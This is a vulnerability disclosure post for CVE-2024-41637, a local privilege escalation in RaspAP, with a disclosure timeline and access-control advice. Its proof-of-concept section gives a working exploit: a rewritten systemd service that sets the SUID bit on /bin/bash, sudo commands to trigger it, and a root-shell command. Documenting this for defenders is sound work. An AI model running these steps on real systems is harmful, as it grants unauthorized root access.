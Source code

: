 ```yaml
---
layout: post
title: CVE-2024-41637  
subtitle: Local Privilege Escalation In RaspAP 
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


# CVE-2024-41637

```
Title: RaspAP Local Privilege Escalation
Risk: 9.9 Critical CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
Versions Affected: Before Versions 3.1.5
Identifier: CVE-2024-41637
Authors: Aaron Haymore
```

## Summary
RaspAP is an open-source project that simplifies the process of configuring and managing a wireless access point on a Raspberry Pi through a web interface. It is designed to transform a Raspberry Pi into a wireless hotspot or router. This tool is particularly popular in educational settings, IoT applications, and among homelab enthusiasts.

A local privilege escalation vulnerability has been identified in RaspAP. The `www-data` user has write access to the `restapi.service` file and also possesses `sudo` privileges to execute several critical commands without a password. This combination of permissions allows an attacker to modify the service to execute arbitrary code with root privileges, escalating their access from `www-data` to root.


## Proof of Concept (PoC) for Exploiting the Vulnerability

To demonstrate how this vulnerability can be exploited, follow these steps to gain root access by modifying and restarting a service with `sudo` privileges:

**Edit the Service Configuration:** Gain access as the `www-data` user and edit the `restapi.service` file located at `/lib/systemd/system/restapi.service`. Replace its contents with the following configuration:
```
[Unit]
Description=Set SUID bit on /bin/bash
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'echo "Service started. Use systemctl to stop the service to set the SUID bit on /bin/bash."'
ExecStop=/bin/bash -c 'chmod u+s /bin/bash'
Restart=always
RestartSec=1

[Install]
WantedBy=multi-user.target
```

This configuration will set the SUID bit on `/bin/bash` when the service stops, allowing the shell to run with root privileges.

**Reboot the Machine:** Run the following command to reboot the machine and reload the daemon:
`sudo /sbin/reboot`

**Start the Modified Service:** Once the machine has rebooted, start the modified `restapi.service` by running:
`sudo /bin/systemctl start restapi.service`


**Stop the Service:** To set the SUID bit, stop the service with the following command:
`sudo /bin/systemctl stop restapi.service`

**Gain Root Access:** Finally, execute the following command to get a root shell:
`/bin/bash -p`

By following these steps, an attacker can exploit the vulnerability to escalate privileges and gain root access. This demonstrates the critical nature of the issue and the importance of securing service configurations and restricting `sudo` access.

## Report Timeline

```
07-16-2024: Vulnerability discovered and reported to security@raspap.com.
07-18-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment.
07-23-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment.
07-26-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment and notificaion of public disclosure.
07-26-2024: Public Disclosure
```

## Conclusion
This vulnerability in RaspAP highlights the critical importance of correctly configuring access controls and user privileges within a system. Allowing a low-privilege user like `www-data` to modify service files and use `sudo` without proper restrictions can lead to severe security breaches, including privilege escalation and arbitrary code execution.

To prevent such vulnerabilities, it is essential to adhere to the following best practices for access control:

- **Implement the Principle of Least Privilege:** Ensure that users only have the minimal level of access necessary to perform their duties. Restrict write permissions to service files to only those who absolutely need it.
- **Audit and Restrict `sudo` Access:** Regularly review `sudoers` configurations to ensure that only trusted users have the ability to execute commands with elevated privileges. Avoid broad `NOPASSWD` configurations that can be exploited.
- **Secure Service Configurations:** Ensure that critical service configurations and scripts are protected from unauthorized modifications. Use appropriate file permissions and ownership settings.
- **Monitoring and Logging:** Implement comprehensive logging and monitoring to detect and alert on unauthorized changes or suspicious activities. Regularly review logs to catch potential exploitation attempts early.

By focusing on correct access controls and ensuring that permissions are appropriately configured, organizations can significantly reduce the risk of such vulnerabilities and maintain a more secure environment. This case underscores the importance of diligently managing user privileges and access to critical system components.
